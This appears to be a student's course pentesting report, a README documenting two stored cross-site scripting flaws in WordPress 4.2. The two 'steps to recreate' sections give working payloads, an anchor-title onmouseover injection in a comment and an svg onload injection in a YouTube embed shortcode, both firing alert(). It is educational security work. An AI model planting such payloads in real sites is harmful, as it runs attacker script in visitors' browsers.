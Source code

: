 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:
        ![ ](Week7_Attack1.gif)
  - [ ] Steps to recreate:
        1. Paste the following as a comment on a post:
        	```
          <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>```
  - [ ] Affected source code:
    
2. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.2
  - [ ] GIF Walkthrough:
        ![ ](Week7_Attack2.gif)
  - [ ] Steps to recreate:
        1. Paste the following as a body of a post:
        	```[embed src='https://youtube.com/embed/123\x3csvg onload=alert(9999)\x3e'][/embed]
          ```
  - [ ] Affected source code:
  

## Assets

  1. Kali Linux Tool - WPScan: https://wpscan.org

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright [2019] [Savyasachi Jagadeeshan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
